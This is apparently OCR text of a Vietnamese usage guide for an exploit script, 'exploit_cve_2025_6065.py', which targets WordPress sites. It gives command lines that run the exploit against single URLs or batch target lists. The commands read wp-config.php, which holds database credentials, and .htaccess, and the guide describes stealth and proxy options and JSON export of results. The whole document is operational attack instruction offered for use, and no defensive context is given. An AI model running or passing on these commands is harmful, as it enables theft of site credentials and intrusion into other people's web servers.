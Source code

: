  + 🧪 Cách sử dụng cơ bản:
python3 exploit_cve_2025_6065.py --url https://target.com --cmd wp-config.php
+ 🔍 Chế độ kiểm tra plugin:
python3 exploit_cve_2025_6065.py --url https://target.com --check-only
+ 📂 Chế độ batch scan:
python3 exploit_cve_2025_6065.py --file targets.txt --cmd wp-config.php
+ targets.txt ví dụ:
- https://target1.com
- http://target2.com
+ 🕵️‍♂️ Chế độ stealth + Proxy:
python3 exploit_cve_2025_6065.py --url https://target.com --cmd .htaccess --stealth --proxy http://127.0.0.1:8080
+ 🧾 Xuất kết quả ra JSON:
python3 exploit_cve_2025_6065.py --file targets.txt --cmd wp-config.php --json-output result.json
